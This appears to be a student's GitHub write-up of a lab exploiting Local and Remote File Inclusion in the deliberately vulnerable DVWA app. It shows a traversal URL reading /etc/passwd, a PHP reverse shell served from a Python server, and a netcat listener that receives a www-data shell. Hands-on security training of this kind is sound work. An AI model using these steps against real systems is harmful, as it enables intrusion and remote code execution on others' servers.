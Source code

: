# Local File Inclusion(LFI)/Remote File Inclusion(RFI)

## Objective:
The purpose of this project is to gain practical experience in identifying and exploiting Local File Inclusion (LFI) and Remote File Inclusion (RFI) vulnerabilities within web applications. By setting up Damn Vulnerable Web Application (DVWA) on Virtualbox and using Docker, I aim to create a controlled environment for hands-on exploration. Key tasks and learning objectives include:

**Project Highlights:**

1. Environment Setup:
- Utilize Virtualbox to set up Damn Vulnerable Web Application (DVWA) and Docker on a Kali Linux machine.
- Establish a secure testbed to simulate real-world scenarios for LFI and RFI exploitation.
- Security Level Configuration:
- Configure DVWA security levels to low, medium, and high to simulate different complexities of LFI and RFI vulnerabilities.

2. Local File Inclusion (LFI) Exploration:
- Familiarize myself with the DVWA interface and locate sections related to LFI vulnerabilities.
- Exploit LFI by including local files, starting with the lowest security level and progressing to higher levels.
- Retrieve sensitive information, such as /etc/passwd, and document the steps taken and files accessed at each security level.

3. Remote File Inclusion (RFI) Exploration:
- Repeat the process for RFI vulnerabilities, attempting to include remote files and execute code from a Kali Linux machine.
- Start a Python server on Kali for RFI exploitation, demonstrating the inclusion of remote files and code execution on the target DVWA machine.
- Document the steps taken and files accessed during RFI exploitation at each security level.

4. Issue Resolution:
- Address common issues encountered during exploitation, including enabling the PHP function allow_url_include.
- Provide troubleshooting steps for resolving errors and challenges in the scanning environment.

## Walkthrough
### Local File Inclusion (LFI)

1. Docker Setup:

- Executed the command sudo docker run –rm -it -p 80:80 vulnerables/web-dvwa to launch the DVWA container.

2. Accessing DVWA:

- Opened DVWA on Firefox via http://localhost and logged in with admin credentials (Username: admin, Password: password).

3. Setting Security Level:

- Navigated to the DVWA Security tab and set the security level to low.

4. Exploiting LFI - Low Security Level:

- Moved to the "File Inclusion" tab and attempted to exploit the vulnerability by including local files.
- Altered the URL to http://localhost/vulnerabilities/fi/?page=../etc/passwd for directory traversal.
- Explored further with additional "../" to retrieve sensitive information.

5. Adjusting Security Level and Repeating LFI:

- Returned to the "DVWA Security" tab and increased the security level to medium.
- Moved to the "File Inclusion" tab to repeat the LFI process at the medium security level.

### Remote File Inclusion (RFI)

1. Setting Up RFI - Low Security Level:

- Returned to the "DVWA Security" page and set the security level to low.
- Accessed the "/usr/share/webshells/php" directory and modified the reverse shell PHP file using the command nano reverse-reverse-shell.php.
- Updated IP to "10.0.2.6" and port to "4445," saving the new file as "RFI1.php."

2. Initiating Listener and Python Server:

- Opened a new Kali tab and initiated a listener with the command nc -lvp 4445.
- Started a Python server on port 8000 in the "/webshells/php" directory using python3 -m http.server 8000.

3. Exploiting RFI:

- Modified the DVWA file inclusion URL to localhost/vulnerabilities/fi/?page=http://10.0.2.6:8000/RFI1.php.
- Observed successful execution in the netcat tab with the output "www-data" from the command whoami.
- Checked the Python server for the file execution timestamp and a 200-success code.
